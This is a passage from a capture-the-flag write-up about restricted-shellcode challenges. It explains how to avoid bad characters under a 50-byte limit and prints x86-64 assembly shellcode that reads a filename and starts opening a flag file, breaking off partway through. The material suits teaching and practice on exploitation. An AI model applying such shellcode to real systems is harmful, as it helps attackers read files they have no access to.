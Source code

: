 After succesfully executing the shellcode, it demands input on stdin. Specifically, it needs the filename which we want to read. Notice that the filename is terminated with a NULL byte: this can be done by typing in the correct filename and then pressing `Ctrl+Space` to send a NULL byte. When done, pressing enter will yield the flag!

Level 3
-------

```bash
This level have shellcode restriction. Bad char list "\x0a\x0d\x2f\x2e\x62\x48\x98\x99\x30\x31" max size 50 bytes.
You main goal is to read /flag/level3.flag
```

Again, fifty bytes maximum shellcode length, but more bad chars have been added. Unfortunately, the bad chars `0x48` and `0x31` make the use of `xor rax, rax` and the like impossible! Instead, to zero a register, something like this can be done:

```
push byte 1     ; 0x6a, 0x01
pop rbx         ; 0x5b
dec bl          ; 0xff
```

This effectively clears `rbx`. This register also typically keeps it's original value after a syscall (it's non-volatile), so it's a good place to store something we'll use more often. 

Furthermore, I like to use `xchg` to swap around contents of registers. However, if this is done on full 64-bit registers, the assembler generates a `0x48` byte, which is a bad char. Instead, the values can be passed around via the stack:

```
; instruction   ; opcode
; --------------|-------
push rax        ; 0x50
push rbx        ; 0x53
pop rax         ; 0x58
pop rbx         ; 0x5b
```

The effect of this is that `rax` now contains the value of `rbx` and vice-versa. Without further ado, the shellcode for level 3:

```
bits 64

_start:

push byte 1
pop rbx
dec bl              ; rbx is now zeroed out, avoiding the bad chars 0x31 and 0x48. 

push rbx
pop rax             ; rax is now zeroed out too. 

push rbx
pop rdi             ; stdin is zero, so zero out rdi as well

push rsp            ; make rsi point to the top of the stack
pop rsi             ; the buffer for syscall read

push byte 18        ; read in 18 bytes
pop rdx
syscall

push rbx
pop rax
inc al
inc al              ; syscall open
```
